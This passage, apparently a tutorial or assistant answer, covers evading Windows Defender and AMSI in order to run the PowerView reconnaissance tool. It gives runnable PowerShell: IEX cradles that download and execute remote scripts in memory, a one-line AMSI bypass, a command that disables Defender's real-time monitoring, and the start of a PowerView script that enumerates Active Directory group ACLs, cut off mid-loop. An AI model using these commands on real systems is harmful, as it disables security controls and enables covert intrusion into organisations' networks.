    ```powershell
   IEX (New-Object Net.WebClient).DownloadString("http://example.com/obfuscated-powerview.ps1")
   ```

2. **AMSI Bypass**:
   - **AMSI bypasses** can disable or tamper with AMSI, allowing scripts like PowerView to run without being inspected. These bypasses typically involve modifying or patching in-memory objects related to AMSI. Many AMSI bypasses are publicly available, but modern Windows systems often detect and block these techniques.
   - **Example AMSI Bypass**:

   ```powershell
   [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')::"amsiInitFailed" = $true
   ```

3. **In-Memory Execution**:
   - Executing scripts like PowerView entirely in memory (using tools like `Invoke-Expression` or `IEX`) without writing the file to disk can reduce the chance of detection, as Defender and other AV solutions often focus on scanning disk-based activity.
   - **Example**:

   ```powershell
   IEX (New-Object Net.WebClient).DownloadString("http://example.com/powerview.ps1")
   ```

4. **Custom Tools**:
   - Instead of using publicly available tools like PowerView, attackers often write custom tools with similar functionality but different codebases. This makes it harder for Defender and AMSI to detect them based on signatures.

5. **Disabling Windows Defender** (Risky and Requires Admin Privileges):
   - In environments where attackers have administrative privileges, they may attempt to disable Windows Defender temporarily.
   - **Example**:

   ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
   ```

6. **Living-off-the-land**:
   - Instead of using external tools like PowerView, attackers can use built-in Windows utilities (e.g., PowerShell cmdlets like `Get-ADUser` or `Get-ADGroupMember`) to achieve similar results. This approach is less likely to be detected, as it uses native tools.
   - **Example**:
   ```powershell
   Get-ADUser -Filter * -Property *
   ```

### Script to Enumerate Groups

```powershell
Import-Module PowerView.ps1

function Get-GroupsWithSpecificPermission {
    param (
        [Parameter(Mandatory = $true)]
        [string]$PermissionType
    )

    # Get all domain groups
    $groups = Get-DomainGroup

    foreach ($group in $groups) {
        # Get the ACLs for each group
        $acls = Get-ObjectAcl -Identity $group.DistinguishedName -ResolveGUIDs

        foreach ($acl in $acls) {
            # Check if the specified permission exists in the ACL
            if ($acl.ActiveDirectoryRights -match $PermissionType) {
                # Output group details and permission
```